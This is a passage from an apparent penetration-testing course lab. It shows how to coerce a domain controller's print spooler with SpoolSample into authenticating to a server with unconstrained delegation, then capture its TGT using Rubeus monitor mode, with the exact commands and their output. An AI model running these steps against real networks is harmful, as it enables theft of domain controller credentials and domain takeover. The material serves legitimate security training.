 > Listing 22 - Enumerating print spooler access

The output reveals that the print spooler service is running and accessible.

Recall that this access is by design and _RpcRemoteFindFirstPrinterChangeNotification_ allows us to simulate a print client and subscribe to notifications of changes on the print server. These notifications are sent over the network by the print spooler service via RPC over a named pipe.

When the "target" spooler accesses the named pipe on the "attacking" machine, it will present a forwardable TGT along with the TGS if the "attacking" machine is configured with unconstrained delegation.

As we did for the local privilege escalation, we'll call the _RpcOpenPrinter_ and _RpcRemoteFindFirstPrinterChangeNotification_ APIs through SpoolSample to facilitate the attack. Once the authentication has taken place, we'll check for tickets in memory originating from the domain controller machine account.

A compiled version of SpoolSample is located in the C:\Tools folder of appsrv01.

We are missing one final item before we launch the attack. In the last section, we used Mimikatz to find and extract the forwardable TGT, but the sheer number of returned TGTs and TGSs makes monitoring difficult. In addition, we had to write the TGT to disk to reuse it.

To solve these challenges, @harmj0y developed the _Rubeus_[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5484-1) C# application, which has been copied to the C:\Tools folder of appsrv01.

Let's launch Rubeus from an administrative command prompt in monitor mode, specify a refresh interval of 5 seconds with the /interval option, and filter on the domain controller machine account with the /filteruser option:

```
C:\Tools> Rubeus.exe monitor /interval:5 /filteruser:CDC01$

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Monitoring
[*] Target user     : CDC01$
[*] Monitoring every 5 seconds for new TGTs
```

> Listing 23 - Monitoring TGT from CDC01$ with Rubeus

With Rubeus monitoring for TGTs originating from the domain controller machine account, we'll open a second command prompt and trigger the print spooler change notification with SpoolSample.exe by specifying the target machine and capture server.

```
C:\Tools> SpoolSample.exe CDC01 APPSRV01
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\CDC01, CaptureServer: \\APPSRV01
Attempted printer notification and received an invalid handle. The coerced authentication probably worked!
```
